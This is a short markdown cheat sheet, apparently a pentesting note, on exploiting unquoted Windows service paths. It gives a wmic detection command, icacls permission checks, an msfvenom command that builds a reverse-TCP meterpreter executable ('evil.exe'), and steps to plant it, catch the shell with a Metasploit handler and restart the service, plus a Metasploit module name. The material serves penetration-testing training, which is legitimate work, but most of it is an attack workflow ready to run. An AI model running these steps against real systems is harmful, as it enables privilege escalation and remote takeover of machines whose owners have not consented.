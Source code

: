 # Unquoted Service Paths

## Detection
```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

## Example
Imagine service VulnService is affected
```
C:\Program Files\Vuln Service\program.exe # ImagePath value of VulnService
```
If we can put our malicious file in one of these ways, the file will run when the service is restarted.
```
C:\Program
C:\Program Files\Vuln
C:\Program Files\Vuln Service\program.exe
```
* If "C:\Program.exe" is not found, then "C:\Program Files\Vuln.exe" would be executed.<br>
* If "C:\Program Files\Vuln.exe" is not found, finally "C:\Program Files\Vuln Service\program.exe" would be executed.

## Check Permission
Check these folders for write privileges
```
icacls <path>
```
## Generate malicious exe with msfvenom
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=LOCAL_IP_ADDRESS LPORT=LOCAL_PORT –f exe > evil.exe
```
Upload the exe file to target machine and then 
```use exploit/multi/handler```
on metasploit. Finally, restart the service

## Service Restart
```
sc stop <service-name>
sc start <service-name
```

## Exploiting Metasploit
```
exploit/windows/local/trusted_service_path
```
